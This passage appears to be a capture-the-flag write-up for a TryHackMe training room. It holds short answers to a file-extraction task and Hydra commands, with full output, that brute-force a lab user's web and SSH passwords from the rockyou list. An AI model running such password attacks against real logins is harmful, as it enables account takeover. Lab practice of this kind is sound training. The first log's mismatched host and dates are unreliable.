 
- How many files did you extract(excluding all the .zip files)

  **Solution:**

  50

- How many files contain Version: 1.1 in their metadata?

  **Solution:**

  3

- Which file contains the password?

  **Solution:**

  dL6w.txt

---

### [Task 22] [Day 17] Hydra-ha-ha-haa

- Use Hydra to bruteforce molly's web password. What is flag 1? (The flag is mistyped, its THM, not TMH)

  **Solution:**

  ~~~bash
  $ hydra -l molly -P ~/wordlist/rockyou.txt 10.10.185.167 http-post-form "/<login url>:username=^USER^&password=^PASS^:F=incorrect"
  Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).
  
  Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2020-09-26 00:18:10
  [WARNING] Restorefile (you have 10 seconds to abort... (use option -I to skip waiting)) from a previous session found, to prevent overwriting, ./hydra.restore
  [DATA] max 4 tasks per 1 server, overall 4 tasks, 14344409 login tries (l:1/p:14344409), ~3586103 tries per task
  [DATA] attacking http-post-form://10.10.185.167:80/<login url>:username=^USER^&password=^PASS^:F=incorrect
  [80][http-post-form] host: 10.10.112.172   login: molly   password: joyness1994
  1 of 1 target successfully completed, 1 valid password found
  Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2020-05-03 19:06:06
  ~~~

  THM{2673a7dd116de68e85c48ec0b1f2612e}

- Use Hydra to bruteforce molly's SSH password. What is flag 2?

  **Solution:**

  ~~~bash
  $ hydra -l molly -P ~/wordlist/rockyou.txt ssh://10.10.185.167
  Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).
  
  Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2020-09-25 23:59:02
  [WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
  [DATA] max 16 tasks per 1 server, overall 16 tasks, 14344409 login tries (l:1/p:14344409), ~896526 tries per task
  [DATA] attacking ssh://10.10.185.167:22/
  [22][ssh] host: 10.10.185.167   login: molly   password: butterfly
  1 of 1 target successfully completed, 1 valid password found
  [WARNING] Writing restore file because 3 final worker threads did not complete until end.
  [ERROR] 3 targets did not resolve or could not be connected
  [ERROR] 0 target did not complete
  Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2020-09-25 23:59:16
  ~~~